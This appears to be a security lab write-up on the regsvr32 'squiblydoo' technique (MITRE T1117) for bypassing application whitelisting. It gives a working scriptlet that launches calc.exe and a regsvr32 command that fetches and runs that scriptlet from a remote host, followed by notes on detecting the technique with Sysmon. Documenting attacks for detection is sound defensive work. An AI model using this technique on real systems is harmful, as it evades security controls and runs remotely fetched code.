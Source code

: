 ```yaml
---
description: >-
  Bypass application whitelisting software by utilizing tools that are built
  into the operating system by default.
---
```


# T1117: regsvr32 aka squiblydoo

[https://attack.mitre.org/wiki/Technique/T1117](https://attack.mitre.org/wiki/Technique/T1117)

## Code

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline%20%281%29.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

